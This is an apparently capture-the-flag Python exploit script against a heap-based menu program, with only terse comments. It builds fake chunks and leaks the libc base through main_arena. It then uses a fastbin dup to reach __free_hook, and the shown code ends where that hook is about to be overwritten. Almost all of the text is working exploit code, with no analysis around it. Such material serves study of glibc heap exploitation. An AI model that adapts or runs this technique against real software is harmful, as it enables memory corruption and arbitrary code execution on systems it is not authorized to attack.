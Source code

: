```python
'''
0x10 3 head
0x400 3 malloc
0x10 4 head
0x90 4 malloc
0x10 5 head
0x3f0 5 malloc

'''

#0xb8 bk_nextsize
#0xc0 'a'*0x300
#0x3c0 p64()*4
#0x3e0 fake 1
pay = p64(heap+0x3e0)
pay += 'a'*0x300 
pay += p64(0xdeadbeef)+p64(heap+0x3e0)+p64(heap+0x3e0)+p64(0xdeadbeef)
pay += p64(0)+p64(0x411)+p64(heap+0x3b0)+p64(heap+0x3c0)+p64(heap+0x90)+p64(heap+0x570)

edit(3,pay)

pay = p64(heap+0x90)
#0x540
pay+= p64(0)+p64(0x411)+p64(0)+p64(0)+p64(heap+0x3e0)+p64(0)
pay = pay.ljust(0x280,'\x00')
pay+=p64(0x410)+p64(0x410)
edit(5,pay)

dele(0)
add(0x410-0x20,'QQQQQQQQ')#0
#recover
edit(3,p64(heap+0x540))
add(0x410-0x20,'X')#3
add(0x400-0x20,'Y')#5

dele(7)#970
dele(4)#4a0

edit(0,'Q'*(8+0x90)+'X'*0x10)
add(0x80,'4')
show(0)

cn.recvuntil('X'*0x10)
main_arena=0x3c4b20

libc_base = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-main_arena-88
success('libc_base: '+hex(libc_base))

#recover
edit(0,'Q'*(8+0x90)+p64(0)+p64(0x51)+p64(libc_base+main_arena+88)*2+'a'*0x30+p64(0x50)+p64(0x50))

add(0x30,'7')#7 vuln
dele(9)#0x55 in arena
dele(7)
#fastbin dup
edit(0,'Q'*(8+0x90)+p64(0)+p64(0x51)+p64(libc_base+main_arena+0x25))
add(0x30,'7')#7
freehook = libc_base+libc.sym['__free_hook']
pay = '\x00'*(0x23-0x18)+p64(freehook-0xb58)
try:
	add(0x30,pay)
except:
	error('unlucky 0x55 :(')
```